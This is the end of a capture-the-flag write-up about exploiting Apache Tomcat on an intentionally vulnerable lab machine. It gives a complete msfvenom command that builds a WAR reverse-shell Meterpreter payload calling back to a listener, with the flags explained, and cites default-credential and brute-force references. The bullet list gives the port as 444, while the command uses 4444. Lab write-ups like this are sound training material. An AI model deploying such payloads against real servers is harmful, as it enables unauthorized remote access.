 ### Msfvenom Java WAR Payload

This is copied exactly as described above but kept down here for future referencing.

`msfvenom -p java/meterpreter/reverse_tcp LHOST=10.6.5.103 LPORT=4444 -f war > shell.war`
- `-p java/meterpreter/reverse_tcp`: Staged Meterpreter payload
- `LHOST=10.6.5.103 LPORT=444`: IP/port combination for the reverse shell
- `-f war`: Output in a WAR file format

## Reflection

This must be my third time exploiting an Apache Tomcat service within an intentionally vulnerable machine but the miniscule fact that accounts can be locked out evaded me this time. For this room, despite not learning any new techniques, I learned that taking a step away from the keyboard can lead to new insights (or old ones that slipped your mind).

For a straight path from enumeration to exploitation, this room does not have many steps to it. There is no privilege escalation as the Apache Tomcat service is run by the root user. However, the experience with generating payloads using msfvenom and catching staged payloads with metasploit's handler module make this room an interesting challenge.

## References

[^tomcat-default-creds]: <https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown>
[^hydra]: <https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#bruteforce>
[^tomcat-exploit]: <https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/>
